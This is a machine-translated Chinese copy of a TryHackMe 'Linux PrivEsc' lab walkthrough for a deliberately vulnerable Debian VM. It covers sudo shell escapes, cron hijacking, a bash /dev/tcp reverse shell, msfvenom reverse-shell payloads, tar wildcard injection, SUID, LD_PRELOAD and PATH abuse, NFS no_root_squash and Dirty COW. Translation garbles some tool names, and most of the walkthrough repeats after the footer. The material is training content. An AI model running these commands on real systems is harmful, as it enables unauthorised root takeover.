# Linux PrivEsc Tryhackme 文章

> 原文：<https://infosecwriteups.com/linux-privesc-tryhackme-writeup-bf4e32460ee5?source=collection_archive---------1----------------------->

## 这是一篇关于 Tryhackme 房间“JLinux PrivEsc”的文章



[https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)

**房间链接:**[https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)
**注:此房免费**

# 任务 1:部署易受攻击的 Debian 虚拟机

这个房间旨在向您介绍各种 Linux 权限提升技术。要做到这一点，您必须首先部署一个故意易受攻击的 Debian VM。这个虚拟机是萨基·沙哈尔创建的，作为他的 [**本地权限提升研讨会**](https://github.com/sagishahar/lpeworkshop) 的一部分，但已经被 [Tib3rius](https://twitter.com/TibSec) 更新，作为他的[**OSCP 及更远地区的 Linux 权限提升的一部分！**](https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06)Udemy 上的课程。这里提供了对本会议室中使用的各种技术的完整解释，以及在 Linux 中查找权限提升的演示和提示。

在尝试访问 Debian 虚拟机之前，请确保您已连接到[**TryHackMe VPN**](https://tryhackme.com/access)**或使用浏览器内 Kali 实例！**

SSH 应该在端口 22 上可用。您可以使用以下命令登录到“用户”帐户:

`ssh user@10.10.25.177`

如果您看到以下消息:“您确定要继续连接吗(是/否)？”键入 **yes** 并按下**进入**。

“用户”帐户的密码是“ **password321** ”。

接下来的任务将带您了解不同的权限提升技术。在每个技术之后，你应该有一个根壳。**在开始下一个任务之前，记得退出 shell 和/或作为“用户”帐户重新建立会话！**

部署机器并使用 SSH 登录到“用户”帐户。

**问 1:** 运行“id”命令。结果如何呢？



> **答案:uid=1000(用户)gid=1000(用户)groups=1000(用户)，24(cdrom)，25(软盘)，29(音频)，30(dip)，44(视频)，46(plugdev)**

# 任务 2:服务利用

MySQL 服务以 root 用户身份运行，并且该服务的“root”用户没有分配密码。我们可以使用一个[流行的漏洞](https://www.exploit-db.com/exploits/1518)，它利用用户定义函数(UDF)通过 MySQL 服务以 root 用户身份运行系统命令。

转到/home/user/tools/mysql-udf 目录:

```
cd /home/user/tools/mysql-udf
```

使用以下命令编译 raptor_udf2.c 漏洞利用代码:



以 root 用户身份使用空白密码连接到 MySQL 服务:

```
mysql -u root
```



在 MySQL shell 上执行以下命令，使用我们编译的漏洞创建一个用户定义的函数(UDF)“do _ system”:



使用函数将/bin/bash 复制到/tmp/rootbash，并设置 SUID 权限:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

退出 MySQL shell(键入 **exit** 或 **\q** 并按 **Enter** )并使用-p 运行/tmp/rootbash 可执行文件以获得以 root 权限运行的 shell:

```
/tmp/rootbash -p
```

**记得在继续之前删除/tmp/rootbash 可执行文件并退出根 shell，因为您稍后将在房间中再次创建该文件！**

```
rm /tmp/rootbash
exit
```



# 任务 3:弱文件权限-可读/etc/shadow

**问 1:** **什么是 root 用户的密码 hash？**



正如我们所看到的，root 和 user 的哈希是暴露的，可以离线破解！

**问 2:使用了什么哈希算法来生成根用户的密码哈希？**

密码的格式为`$id$salt$hash`，id 的可能值为:

*   `$1$` : MD5
*   `$2$`:河豚
*   `$3$`:河豚
*   `$5$` : SHA256
*   `$6$` : SHA512

`$6$`为 SHA512。开膛手约翰会给出这个信息。

我们可以使用另一个名为“hashid”的工具来确定哈希类型。



**问 root 用户的密码是什么？**

我们可以使用开膛手约翰破解密码，这也告诉我们使用的哈希算法。



# 任务 4:弱文件权限-可写/etc/shadow

虚拟机上的/etc/shadow 文件不仅是全局可读的，而且是全局可写的。这可能会被滥用，方法是将 root 的哈希改为一个我们知道明文密码的新哈希。

“mkpasswd”实用程序用于创建新的 sha-512 密码。使用 vim 替换 root 的新散列。


使用 root 用户和新密码“pass123”通过 SSH 访问虚拟机



# 任务 5:弱文件权限——可写/etc/passwd

/etc/passwd 文件包含有关用户帐户的信息。它是全球可读的，但通常只有根用户可写。从历史上看,/etc/passwd 文件包含用户密码散列，某些版本的 Linux 仍然允许在其中存储密码散列。



# 任务 6: Sudo -Shell 转义序列

列出 sudo 允许您的用户运行的程序:

`sudo -l`

访问 GTFOBins([https://GTFOBins . github . io](https://gtfobins.github.io))搜索一些程序名。如果程序列出了“sudo”作为一个函数，您可以使用它来提升权限，通常是通过转义序列。

从列表中选择一个程序，并按照 GTFOBins 的说明尝试获得一个根 shell。

对于一个额外的挑战，尝试使用列表中的所有程序获得一个根 shell！

**记得在继续之前退出根 shell！**

“用户”可以通过 sudo 运行多少个程序？



> **答案:11**

**问题 2:** 列表中的一个程序在 GTFOBins 上没有 shell 转义序列。到底是哪个？

> **答案:apache2**

**if top**([https://gtfobins.github.io/gtfobins/iftop/](https://gtfobins.github.io/gtfobins/iftop/))

```
sudo iftop
!/bin/sh
```

复制整个命令并粘贴它



**找到**([https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/))



**纳米**(【https://gtfobins.github.io/gtfobins/nano/】T21)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```



维姆([https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/))

```
sudo vim -c ':!/bin/bash'
```



**男人**([https://gtfobins.github.io/gtfobins/man/](https://gtfobins.github.io/gtfobins/man/))

```
sudo man man
!/bin/bash
```



**awk**([https://gtfobins.github.io/gtfobins/awk/](https://gtfobins.github.io/gtfobins/awk/))

```
sudo awk 'BEGIN {system("/bin/bash")}'
```



**少了**([https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/))

```
sudo less /etc/profile
!/bin/sh
```



**FTP**([https://gtfobins.github.io/gtfobins/ftp/](https://gtfobins.github.io/gtfobins/ftp/))

```
sudo ftp
!/bin/sh
```



**nmap**([https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/))

安装了 Nmap 5.00，它具有交互模式:

```
sudo nmap --interactive
nmap> !sh
```



# 任务 7: Sudo 环境变量

正如演练所说，

> *程序运行时，LD_PRELOAD 先加载一个共享对象*

这意味着我们可以创建一个共享对象(生成一个 shell ),并在程序执行期间将它传递给这个环境变量(使用 sudo 作为根 shell ),以便在实际程序被调用之前执行它



是的，它甚至适用于其他库，这是由于利用源代码的性质



细说起来，`/home/user/tools/sudo/preload.c`的内容是



而`/home/user/tools/sudo/library_path.c`的内容是



基本上，这些程序运行一个对`/bin/bash`的系统调用来产生一个 shell，因为我们用 sudo 运行它，我们得到一个根 shell

这就是为什么进程独立于被调用的库

# 任务 8: Cron 作业-文件权限

所以我们看到`overwrite.sh`每分钟都被执行

哦，顺便说一下，如果你在阅读 cron 工作时间方面有困难，请访问 [crontab guru](https://crontab.guru)

所以现在，我们可以通过在`overwrite.sh`中编写我们的代码来连接到我们的本地机器，生成一个 shell，当它被 root 用户执行时，我们将得到一个 shell

在 unix 系统中，打开端口(或套接字？不确定)，是通过像访问文件一样访问`/dev/`中的协议和端口来完成的(如果我是对的，它被称为文件描述符)

所以，我们的代码应该是

```
#!/bin/bash
bash -i >& /dev/tcp/10.2.12.26/4444 0>&1
```

**说明:**

*   第一行:shebang 表示解释器，这里是 bash
*   第二行:`bash -i`打开一个交互式 shell，`>& /dev/tcp/10.2.12.26/4444`将所有流重定向到我们的本地机器，`0>&1`将 **stdin** 和 **stdout** 重定向到 **stdout**

因此，在编辑了`overwrite.sh`中的代码之后，我们在本地机器上监听，等待一个 shell



# 任务 9: Cron 作业路径环境变量

查看系统范围的 crontab 的内容:

```
cat /etc/crontab
```

注意，PATH 变量以/home/user 开始，这是我们用户的主目录。

在您的主目录中创建一个名为 overwrite.sh 的文件，包含以下内容:

```
#!/bin/bashcp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

确保该文件是可执行的:

```
chmod +x /home/user/overwrite.sh
```

等待 cron 作业运行(不应超过一分钟)。使用-p 运行/tmp/rootbash 命令，获得以 root 权限运行的 shell:

```
/tmp/rootbash -p
```

在继续之前，请记住删除修改后的代码，删除/tmp/rootbash 可执行文件并退出提升的 shell，因为您稍后将在房间中再次创建该文件！

```
rm /tmp/rootbash
exit
```



# 任务 10: Cron 作业-通配符

查看其他 cron 作业脚本的内容:

`cat /usr/local/bin/compress.sh`

请注意，tar 命令是在您的主目录中使用通配符(*)运行的。

请看一下 [tar](https://gtfobins.github.io/gtfobins/tar/) 的 GTFOBins 页面。注意，tar 有命令行选项，允许您运行其他命令作为检查点特性的一部分。

在你的 Kali box 上使用 msfvenom 生成一个反向 shell ELF 二进制。相应地更新 LHOST IP 地址:

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

将 shell.elf 文件传输到 Debian VM 上的 **/home/user/** (您可以使用 **scp** 或将文件托管在 Kali box 上的 web 服务器上，并使用 **wget** )。确保文件是可执行的:



`chmod +x /home/user/shell.elf`

在/home/user 中创建这两个文件:

`touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf`



当 cron 作业中的 tar 命令运行时，通配符(*)将扩展到包括这些文件。因为它们的文件名是有效的 tar 命令行选项，tar 会识别它们，并把它们当作命令行选项而不是文件名。

在 Kali box 的 4444 端口上设置一个 netcat 监听器，并等待 cron 作业运行(不应该超过一分钟)。根 shell 应该连接回您的 netcat 监听器。



`nc -nvlp 4444`

**记得退出根 shell 并删除您创建的所有文件，以防止 cron 作业再次执行:**

`rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf`

# 任务 11: SUID / SGID 可执行文件-已知漏洞

在 Debian 虚拟机上找到所有的 SUID/SGID 可执行文件:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```



请注意,/ usr/sbin/exim-4.84–3 出现在结果中。尝试查找此版本 exim 的已知漏洞。Exploit-DB、Google 和 GitHub 是搜索的好地方！

应该可以利用与此版本的 exim 完全匹配的本地权限提升漏洞。可以在 Debian VM 的/home/user/tools/suid/exim/CVE-2016–1531 . sh 上找到一份副本。

运行漏洞脚本以获得根外壳:



# 任务 12: SUID / SGID 可执行文件-共享对象注入

当我们运行`/usr/local/bin/suid-so`(与共享对象有关的东西)时，它显示一个进度条，然后退出

所以我们运行一个`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`,看看是否有错误的配置或文件，我们可以改变来利用这个可执行文件。

从输出来看，我们的目标是`/home/user/.config/libcalc.so`,因为它不存在，我们有管理文件和文件夹的读写权限

在编译和运行漏洞时，我们获得了根外壳访问权限

注意，可执行文件试图加载/home/user/。config/libcalc.so 共享对象，但是找不到它。

创建。libcalc.so 文件的配置目录:

```
mkdir /home/user/.config
```

示例共享对象代码可以在/home/user/tools/suid/lib calc . c 中找到。在 suid-so 可执行文件查找代码的位置，将代码编译成共享对象:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

再次执行 suid-so 可执行文件，注意这一次，我们得到的不是进度条，而是根 shell。

```
/usr/local/bin/suid-so
```



# 任务 13: SUID / SGID 可执行文件-环境变量

由于/usr/local/bin/suid-env 可执行文件继承了用户的 PATH 环境变量，并试图在不指定绝对路径的情况下执行程序，因此可以利用该文件。

首先，执行该文件，注意它似乎试图启动 apache2 服务器:

```
/usr/local/bin/suid-env
```

在文件上运行字符串以查找可打印的字符串:

```
strings /usr/local/bin/suid-env
```

其中一行(“service apache2 start”)表示正在调用服务可执行文件来启动 web 服务器，但是没有使用可执行文件的完整路径(/usr/sbin/service)。

将位于/home/user/tools/suid/service . c 的代码编译成一个名为 service 的可执行文件。这段代码只是生成了一个 Bash shell:

```
gcc -o service /home/user/tools/suid/service.c
```

将当前目录(或新服务可执行文件所在的位置)添加到 PATH 变量前面，并运行 suid-env 可执行文件以获得根 shell:

```
PATH=.:$PATH /usr/local/bin/suid-env
```



# 任务 14: SUID / SGID 可执行文件-滥用外壳功能(#1)

这非常有趣。所以在低于 4.2–048 的 bash 版本中，我们可以定义类似文件路径的函数



/usr/local/bin/suid-env2 可执行文件与/usr/local/bin/suid-env 相同，只是它使用服务可执行文件的绝对路径(/usr/sbin/service)来启动 apache2 服务器。

用字符串验证这一点:

```
strings /usr/local/bin/suid-env2
```

在 Bash 版本中<4.2–048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2–048:

```
/bin/bash --version
```

Create a Bash function with the name “/usr/sbin/service” that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```
/usr/local/bin/suid-env2
```



# Task 15: SUID / SGID Executables -Abusing Shell Features (#2)

so, in bash versions less than 4.4 and above, we could define the PS4 variable to display an extra prompt for debugging statements in debugging mode.



*注意:这在 Bash 版本 4.4 和更高版本上不起作用。*

在调试模式下，Bash 使用环境变量 **PS4** 来显示调试语句的额外提示。

运行 **/usr/local/bin/suid-env2** 可执行文件，启用 bash 调试，并将 PS4 变量设置为一个嵌入式命令，这将创建/bin/bash 的 suid 版本:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

使用-p 运行/tmp/rootbash 可执行文件，以获得使用 root 权限运行的 shell:

```
/tmp/rootbash -p
```

**记得在继续之前删除/tmp/rootbash 可执行文件并退出提升的 shell，因为稍后您将在房间中再次创建该文件！**

```
rm /tmp/rootbash
exit
```



# 任务 16:密码和密钥-历史文件



使用密码切换到 root 用户:

```
su root
```

# 任务 17:密码和密钥-配置文件

配置文件通常包含明文或其他可逆格式的密码。

列出用户主目录的内容:

```
ls /home/user
```

请注意 myvpn.ovpn 配置文件的存在。查看文件的内容:

```
cat /home/user/myvpn.ovpn
```

该文件应该包含对可以找到 root 用户凭据的另一个位置的引用。使用凭据切换到 root 用户:

```
su root
```



**问题 1:** 您在哪个文件中找到了 root 用户的凭证？

> ***答案:/etc/openvpn/auth.txt***

# 任务 18:密码和密钥-SSH 密钥

有时，用户会备份重要文件，但却无法使用正确的权限来保护它们。

在系统根目录中查找隐藏的文件和目录:

`ls -la /`

请注意，似乎有一个名为**的隐藏目录。宋承宪**。查看目录的内容:

`ls -l /.ssh`

注意，有一个全球可读的文件叫做 **root_key** 。对该文件的进一步检查应该表明它是一个私有 SSH 密钥。该文件的名称表明它是为 root 用户准备的。

将密钥复制到您的 Kali 框中(只查看 **root_key** 文件的内容并复制/粘贴密钥会更容易),并赋予它正确的权限，否则您的 SSH 客户端将拒绝使用它:

`chmod 600 root_key`

使用密钥作为根帐户登录 Debian 虚拟机(相应地更改 IP):

`ssh -i root_key root@10.10.10.10`

**记得在继续之前退出根 shell！**



将密钥复制到 kali linux



# 任务 19 — NFS

通过 NFS 创建的文件继承了**远程**用户的 ID。如果用户是 root，并且启用了 root squashing，则 ID 将改为设置为“nobody”用户。

检查 Debian 虚拟机上的 NFS 共享配置:

**在服务器上**

```
cat /etc/exports
```



请注意， **/tmp** 共享禁用了根挤压。

在您的 Kali 机器上，如果您还没有以 root 用户身份运行，请切换到 root 用户:

```
sudo su
```

使用 Kali 的 root 用户，在您的 Kali 机器上创建一个挂载点，并挂载 **/tmp** 共享(相应地更新 IP):

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

仍然使用 Kali 的 root 用户，使用 **msfvenom** 生成一个有效负载，并保存到挂载的共享中(这个有效负载简单地调用/bin/bash):

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

仍然使用 Kali 的根用户，使文件可执行，并设置 SUID 权限:

**工作站上的**

```
chmod +xs /tmp/nfs/shell.elf
```



回到 Debian VM，作为低特权用户帐户，执行文件以获得根 shell:

```
/tmp/shell.elf
```

**记得在继续之前退出根 shell！**

**服务器上的**



**问题 1:** 禁用根挤压的选项叫什么？

> ***答案:no_root_squash***

# 任务 20:内核漏洞

内核漏洞可能会使系统处于不稳定状态，这就是为什么您应该只在万不得已时才运行它们。

运行 **Linux 漏洞利用建议器 2** 工具，识别当前系统上潜在的内核漏洞利用:

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

应该列出流行的 Linux 内核漏洞“Dirty COW”。Dirty COW 的漏洞利用代码可以在**/home/user/tools/kernel-exploits/Dirty COW/c0w . c**找到。它将 SUID 文件/usr/bin/passwd 替换为一个生成 shell 的文件(在/tmp/bak 中创建了/usr/bin/passwd 的备份)。

编译并运行代码(注意，可能需要几分钟才能完成):

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

一旦攻击完成，运行/usr/bin/passwd 获得根外壳:

```
/usr/bin/passwd
```

记得在继续之前恢复原始的/usr/bin/passwd 文件并退出根 shell！

```
mv /tmp/bak /usr/bin/passwd
exit
```



你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

访问我的其他演练:-

[](https://shamsher-khan.medium.com/dns-manipulation-tryhackme-writeup-931b06ef02cd) [## DNS 操纵尝试黑客技术

### 这是一篇关于 Tryhackme room“DNS 操纵”的文章

shamsher-khan.medium.com](https://shamsher-khan.medium.com/dns-manipulation-tryhackme-writeup-931b06ef02cd) [](https://link.medium.com/DNfhWzmtveb) [## Wekor Tryhackme 报道

### 作者 Shamsher khan 这是一篇关于 Tryhackme room“Wekor”的文章

link.medium.com](https://link.medium.com/DNfhWzmtveb) [](https://link.medium.com/mKGmn0Ztpeb) [## 团队 Tryhackme 记录

### 由沙姆谢尔汗这是一个 Tryhackme 室“团队”Tryhackme 写

link.medium.com](https://link.medium.com/mKGmn0Ztpeb) 

感谢您花时间阅读我的演练。
如果你觉得有用，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！Linux PrivEsc Tryhackme 文章

## 作者 Shamsher khan 这是一篇关于 Tryhackme room“JLinux PrivEsc”的文章


[https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)

**房间链接:**[https://tryhackme.com/room/linuxprivesc](https://tryhackme.com/room/linuxprivesc)
**注:此房免费**

# 任务 1:部署易受攻击的 Debian 虚拟机

这个房间旨在向您介绍各种 Linux 权限提升技术。要做到这一点，您必须首先部署一个故意易受攻击的 Debian VM。这个虚拟机是萨基·沙哈尔创建的，作为他的[](https://github.com/sagishahar/lpeworkshop)**本地权限提升研讨会的一部分，但是已经被 [Tib3rius](https://twitter.com/TibSec) 更新，作为他的[**OSCP 及更远地区的 Linux 权限提升的一部分！**](https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06)Udemy 上的课程。这里提供了对本会议室中使用的各种技术的完整解释，以及在 Linux 中查找权限提升的演示和提示。**

****在尝试访问 Debian 虚拟机之前，请确保您已连接到**[**TryHackMe VPN**](https://tryhackme.com/access)**或使用浏览器内 Kali 实例！****

**SSH 应该在端口 22 上可用。您可以使用以下命令登录到“用户”帐户:**

**`ssh user@10.10.25.177`**

**如果您看到以下消息:“您确定要继续连接吗(是/否)？”键入 **yes** 并按下**进入**。**

**“用户”帐户的密码是“ **password321** ”。**

**接下来的任务将带您了解不同的权限提升技术。在每个技术之后，你应该有一个根壳。**在开始下一个任务之前，记得退出 shell 和/或作为“用户”帐户重新建立一个会话！****

**部署机器并使用 SSH 登录到“用户”帐户。**

****问 1:** 运行“id”命令。结果如何呢？**

****

> ****答案:uid=1000(用户)gid=1000(用户)groups=1000(用户)，24(cdrom)，25(软盘)，29(音频)，30(dip)，44(视频)，46(plugdev)****

# **任务 2:服务利用**

**MySQL 服务以 root 用户身份运行，并且该服务的“root”用户没有分配密码。我们可以使用[流行的漏洞](https://www.exploit-db.com/exploits/1518)，它利用用户定义函数(UDF)通过 MySQL 服务以 root 用户身份运行系统命令。**

**转到/home/user/tools/mysql-udf 目录:**

```
cd /home/user/tools/mysql-udf
```

**使用以下命令编译 raptor_udf2.c 漏洞利用代码:**

****

**以 root 用户身份使用空白密码连接到 MySQL 服务:**

```
mysql -u root
```

****

**在 MySQL shell 上执行以下命令，使用我们编译的漏洞创建一个用户定义的函数(UDF)“do _ system”:**

************

**使用函数将/bin/bash 复制到/tmp/rootbash，并设置 SUID 权限:**

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

**退出 MySQL shell(键入 **exit** 或 **\q** 并按 **Enter** )并使用-p 运行/tmp/rootbash 可执行文件以获得以 root 权限运行的 shell:**

```
/tmp/rootbash -p
```

****记得在继续之前删除/tmp/rootbash 可执行文件并退出根 shell，因为您稍后将在房间中再次创建该文件！****

```
rm /tmp/rootbash
exit
```

****

# **任务 3:弱文件权限-可读/etc/shadow**

****问 1:** **什么是 root 用户的密码 hash？****

********

**正如我们所看到的，root 和 user 的哈希是暴露的，可以离线破解！**

****问题 2:使用了什么哈希算法来生成根用户的密码哈希？****

**密码的格式为`$id$salt$hash`，id 的可能值为:**

*   **`$1$` : MD5**
*   **`$2$`:河豚**
*   **`$3$`:河豚**
*   **`$5$` : SHA256**
*   **`$6$` : SHA512**

**`$6$`为 SHA512。开膛手约翰会给出这个信息。**

**我们可以使用另一个名为“hashid”的工具来确定哈希类型。**

****

****问 root 用户的密码是什么？****

**我们可以使用开膛手约翰破解密码，这也告诉我们使用的哈希算法。**

****

# **任务 4:弱文件权限-可写/etc/shadow**

**虚拟机上的/etc/shadow 文件不仅是全局可读的，而且是全局可写的。这可能会被滥用，方法是将 root 的哈希改为一个我们知道明文密码的新哈希。**

**“mkpasswd”实用程序用于创建新的 sha-512 密码。使用 vim 替换 root 的新散列。**

****

**使用 root 用户和新密码“pass123”通过 SSH 访问虚拟机**

****

# **任务 5:弱文件权限-可写/etc/passwd**

**/etc/passwd 文件包含有关用户帐户的信息。它是全球可读的，但通常只有根用户可写。从历史上看,/etc/passwd 文件包含用户密码散列，某些版本的 Linux 仍然允许在其中存储密码散列。**

****

# **任务 6: Sudo -Shell 转义序列**

**列出 sudo 允许您的用户运行的程序:**

**`sudo -l`**

**访问 GTFOBins([https://GTFOBins . github . io](https://gtfobins.github.io))，搜索一些程序名。如果程序列出了“sudo”作为一个函数，您可以使用它来提升权限，通常是通过转义序列。**

**从列表中选择一个程序，并按照 GTFOBins 的说明尝试获得一个根 shell。**

**对于一个额外的挑战，尝试使用列表中的所有程序获得一个根 shell！**

****记得在继续之前退出根 shell！****

**“用户”可以通过 sudo 运行多少个程序？**

****

> ****答案:11****

****问题 2:** 列表中的一个程序在 GTFOBins 上没有 shell 转义序列。到底是哪个？**

> ****答案:apache2****

****iftop**([https://gtfobins.github.io/gtfobins/iftop/](https://gtfobins.github.io/gtfobins/iftop/))**

```
sudo iftop
!/bin/sh
```

**复制整个命令并粘贴它**

****

****找到**([https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/))**

****

****纳米**([https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/))**

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

****

**维姆([https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/))T21**

```
sudo vim -c ':!/bin/bash'
```

****

****男人**([https://gtfobins.github.io/gtfobins/man/](https://gtfobins.github.io/gtfobins/man/))**

```
sudo man man
!/bin/bash
```

****

****awk**([https://gtfobins.github.io/gtfobins/awk/](https://gtfobins.github.io/gtfobins/awk/))**

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

****

****少了**([https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/))**

```
sudo less /etc/profile
!/bin/sh
```

****

****FTP**([https://gtfobins.github.io/gtfobins/ftp/](https://gtfobins.github.io/gtfobins/ftp/))**

```
sudo ftp
!/bin/sh
```

****

****nmap**([https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/))**

**安装了 Nmap 5.00，它具有交互模式:**

```
sudo nmap --interactive
nmap> !sh
```

****

# **任务 7: Sudo 环境变量**

**正如演练所说，**

> ***程序运行时，LD_PRELOAD 先加载一个共享对象***

**这意味着我们可以创建一个共享对象(生成一个 shell ),并在程序执行期间将它传递给这个环境变量(使用 sudo 作为根 shell ),以便在实际程序被调用之前执行它**

****

**是的，它甚至适用于其他库，这是由于利用源代码的性质**

****

**细说起来，`/home/user/tools/sudo/preload.c`的内容是**

****

**而`/home/user/tools/sudo/library_path.c`的内容是**

****

**基本上，这些程序运行一个对`/bin/bash`的系统调用来产生一个 shell，因为我们用 sudo 运行它，我们得到一个根 shell**

**这就是为什么进程独立于被调用的库**

# **任务 8: Cron 作业-文件权限**

**所以我们看到`overwrite.sh`每分钟都被执行**

**哦，顺便说一句，如果你在阅读 cron 工作时间方面有困难，请访问 crontab guru**

**所以现在，我们可以通过在`overwrite.sh`中编写我们的代码来连接到我们的本地机器，生成一个 shell，当它被 root 用户执行时，我们将得到一个 shell**

**在 unix 系统中，打开端口(或套接字？不确定)，是通过像访问文件一样访问`/dev/`中的协议和端口完成的(如果我是对的，它被称为文件描述符)**

**所以，我们的代码应该是**

```
#!/bin/bash
bash -i >& /dev/tcp/10.2.12.26/4444 0>&1
```

****说明:****

*   **第一行:shebang 表示解释器，这里是 bash**
*   **第二行:`bash -i`打开一个交互式 shell，`>& /dev/tcp/10.2.12.26/4444`将所有流重定向到我们的本地机器，`0>&1`将 **stdin** 和 **stdout** 重定向到 **stdout****

**因此，在编辑完`overwrite.sh`中的代码后，我们在本地机器上监听，等待一个 shell**

********

# **任务 9: Cron 作业路径环境变量**

**查看系统范围的 crontab 的内容:**

```
cat /etc/crontab
```

**注意，PATH 变量以/home/user 开始，这是我们用户的主目录。**

**在您的主目录中创建一个名为 overwrite.sh 的文件，包含以下内容:**

```
#!/bin/bashcp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

**确保该文件是可执行的:**

```
chmod +x /home/user/overwrite.sh
```

**等待 cron 作业运行(不应超过一分钟)。使用-p 运行/tmp/rootbash 命令，获得以 root 权限运行的 shell:**

```
/tmp/rootbash -p
```

**在继续之前，请记住删除修改后的代码，删除/tmp/rootbash 可执行文件并退出提升的 shell，因为您稍后将在房间中再次创建该文件！**

```
rm /tmp/rootbash
exit
```

****

# **任务 10: Cron 作业-通配符**

**查看其他 cron 作业脚本的内容:**

**`cat /usr/local/bin/compress.sh`**

**请注意，tar 命令是在您的主目录中使用通配符(*)运行的。**

**看看 T21 的 GTFOBins 页面。注意，tar 有命令行选项，允许您运行其他命令作为检查点特性的一部分。**

**在你的 Kali box 上使用 msfvenom 生成一个反向 shell ELF 二进制。相应地更新 LHOST IP 地址:**

**`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`**

**将 shell.elf 文件传输到 Debian VM 上的 **/home/user/** (您可以使用 **scp** 或将文件托管在 Kali box 上的 web 服务器上，并使用 **wget** )。确保文件是可执行的:**

****

**`chmod +x /home/user/shell.elf`**

**在/home/user 中创建这两个文件:**

**`touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf`**

****

**当 cron 作业中的 tar 命令运行时，通配符(*)将扩展到包括这些文件。因为它们的文件名是有效的 tar 命令行选项，tar 会识别它们，并把它们当作命令行选项而不是文件名。**

**在 Kali box 的 4444 端口上设置一个 netcat 监听器，并等待 cron 作业运行(不应该超过一分钟)。根 shell 应该连接回您的 netcat 监听器。**

****

**`nc -nvlp 4444`**

****记得退出根 shell 并删除您创建的所有文件，以防止 cron 作业再次执行:****

**`rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf`**

# **任务 11: SUID / SGID 可执行文件-已知漏洞**

**在 Debian 虚拟机上找到所有的 SUID/SGID 可执行文件:**

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

****

**请注意,/ usr/sbin/exim-4.84–3 出现在结果中。尝试查找此版本 exim 的已知漏洞。Exploit-DB、Google 和 GitHub 是搜索的好地方！**

**应该可以利用与此版本的 exim 完全匹配的本地权限提升漏洞。可以在 Debian VM 的/home/user/tools/suid/exim/CVE-2016–1531 . sh 上找到一份副本。**

**运行漏洞脚本以获得根外壳:**

****

# **任务 12: SUID / SGID 可执行文件-共享对象注入**

**当我们运行`/usr/local/bin/suid-so`(与共享对象有关的东西)时，它显示一个进度条，然后退出**

**所以我们运行一个`strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`，看看是否有错误的配置或文件，我们可以改变，以利用这个可执行文件。**

**从输出来看，我们的目标是`/home/user/.config/libcalc.so`,因为它不存在，我们有管理文件和文件夹的读写权限**

**在编译和运行漏洞时，我们获得了根外壳访问权限**

**注意，可执行文件试图加载/home/user/。config/libcalc.so 共享对象，但是找不到它。**

**创建。libcalc.so 文件的配置目录:**

```
mkdir /home/user/.config
```

**示例共享对象代码可以在/home/user/tools/suid/lib calc . c 中找到。在 suid-so 可执行文件查找代码的位置，将代码编译成共享对象:**

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

**再次执行 suid-so 可执行文件，注意这一次，我们得到的不是进度条，而是根 shell。**

```
/usr/local/bin/suid-so
```

****

